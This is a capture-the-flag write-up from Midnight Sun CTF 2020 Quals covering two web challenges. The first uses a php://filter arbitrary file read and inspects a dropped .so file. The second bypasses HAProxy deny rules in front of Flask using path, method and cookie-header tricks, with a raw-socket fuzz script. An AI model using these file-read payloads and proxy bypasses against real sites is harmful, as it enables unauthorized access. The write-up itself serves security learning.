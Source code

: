 # Midnight Sun CTF 2020 Quals

**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20200404-midnightsunctf2020quals/) of this writeup.**


 - [Midnight Sun CTF 2020 Quals](#midnight-sun-ctf-2020-quals)
   - [Web](#web)
     - [hackingforso](#hackingforso)
     - [Shithappens](#shithappens)


---

## Web

### hackingforso

There is an arbitrary file read vulnerability:

`http://hackingforso-01.play.midnightsunctf.se/?file=php://filter/convert.base64-encode/resource=/var/www/html/index.php`

(we can't use `..` and `/xxxx`, but we can use `php://filter`)


When I read the `/proc/self/map`, I found this:

```
562fa83f6000-562fa8e74000 r-xp 00000000 ca:01 269523                     /usr/local/sbin/php-fpm
562fa9074000-562fa9119000 r--p 00a7e000 ca:01 269523                     /usr/local/sbin/php-fpm
562fa9119000-562fa9125000 rw-p 00b23000 ca:01 269523                     /usr/local/sbin/php-fpm
562fa9125000-562fa9134000 rw-p 00000000 00:00 0
562faa1e0000-562faa3ff000 rw-p 00000000 00:00 0                          [heap]
562faa3ff000-562faa403000 rw-p 00000000 00:00 0                          [heap]
7f999efbd000-7f999f1bd000 r-xp 00000000 ca:01 284231                     /var/www/messages/21db4c2051b8e454d73f7b97664770ef.so
7f999f1bd000-7f999f1be000 r--p 00000000 ca:01 284231                     /var/www/messages/21db4c2051b8e454d73f7b97664770ef.so
7f999f1be000-7f999f1bf000 rw-p 00001000 ca:01 284231                     /var/www/messages/21db4c2051b8e454d73f7b97664770ef.so
7f999f1bf000-7f999f3c0000 r-xp 00000000 ca:01 279464                     /usr/local/lib/libmcrypt/ofb.so
7f999f3c0000-7f999f3c1000 r--p 00001000 ca:01 279464                     /usr/local/lib/libmcrypt/ofb.so
7f999f3c1000-7f999f3c2000 rw-p 00002000 ca:01 279464                     /usr/local/lib/libmcrypt/ofb.so
7f999f3c2000-7f999f5c3000 r-xp 00000000 ca:01 279466                     /usr/local/lib/libmcrypt/rc2.so
7f999f5c3000-7f999f5c4000 r--p 00001000 ca:01 279466                     /usr/local/lib/libmcrypt/rc2.so
...
```

The `21db4c2051b8e454d73f7b97664770ef.so` looks like someone's malicious `so` file.

So I tried to download this `so` file, and use `strings` command:

```
$ strings 21db4c2051b8e454d73f7b97664770ef.so

...
./flag_dispenser > /var/www/messages/hurt_me_plentye124f251ac.txt
...
```

OK, let's try to read the `hurt_me_plentye124f251ac.txt`:

`midnight{i_h@t3_cryPt0_1n_w3b_ch4llz}`

WOW, I got the flag :)

### Shithappens

This is a HAproxy bypass challenge. The key here is to exploit the difference between HAproxy and flask.

```
frontend internet_access
  bind *:80
  errorfile 403 /etc/haproxy/errorfiles/403custom.http
  http-response set-header Server Server
  http-request deny if METH_POST
  http-request deny if { path_beg /admin }
  http-request deny if { cook(IMPERSONATE) -m found }
  http-request deny if { hdr_len(Cookie) gt 69 }
  mode http
  use_backend test

backend test
  balance roundrobin
  mode http
  server flaskapp app:8282 resolvers docker_resolver resolve-prefer ipv4
```

1. `path_beg`: request `/%2fadmin` or simply `//admin`
2. `METH_POST`: Just use `HEAD`
3. `hdr_len(Cookie)`: send multiple `Cookie` headers
4. `cook(IMPERSONATE)`: Insert invalid chracter like `IMPERSONATE\x0b`. The backend `flask` will resolve it as `IMPERSONATE`.

Here is the fuzz script for step 4.

```
#!/usr/bin/env python3
import socket
import string
for i in range(128):
    c = chr(i)
    if c in (string.ascii_letters + string.digits):
        continue
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('shithappens-01.play.midnightsunctf.se', 80))
    s.send((f'''
GET //admin HTTP/1.1                                                                                                                     
Cookie: KEY=0be40039bcd8286eab237f481641b16e5e3ab442e0bc1135f08c143b22dc1efc;
cooKie: ;IMPERSONATE{c}=admin
Connection: close
''' + '\n').lstrip().replace('\n', '\r\n').encode())
    print(repr(c), s.recv(65536).decode())
    s.close()
```

For the the reason why flask resolves it as `IMPERSONATE`, see [this post](https://www.cnblogs.com/20175211lyz/p/12637624.html) (in Chinese), or check the flask source code.

In this challenge, there is also a debug interface `/debug` which can be useful for debugging the cookies.



